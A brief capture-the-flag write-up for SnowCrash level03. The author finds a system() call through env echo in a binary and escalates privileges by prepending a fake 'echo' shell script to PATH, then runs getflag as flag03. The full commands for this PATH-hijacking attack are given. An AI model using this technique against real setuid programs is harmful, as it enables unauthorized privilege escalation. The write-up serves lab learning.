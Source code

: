 We have a binary that prints "Exploit me".
A stud walking by saw me using radare2, and said : you should use ghidra instead. I did and saw that there was a call to system().
After a quick search I found I could change the PATH to the function called by 'system' :

iVar1 = system("/usr/bin/env echo Exploit me");

So I did. with these commands
mkdir /tmp/hack
level03@SnowCrash:~$ echo -e '#!/bin/sh\n/bin/sh' > /tmp/hack/echo
level03@SnowCrash:~$ chmod +x /tmp/hack/echo
level03@SnowCrash:~$ export PATH="/tmp/hack:$PATH"
level03@SnowCrash:~$ ./level03
Now when I executed the binary, I spawn into a shell.
I also searched what I could do when I got a shell from a binary, the first command was whoami, to know which user and privileges we have.

whoami gave me flag03, so I did getflag command 
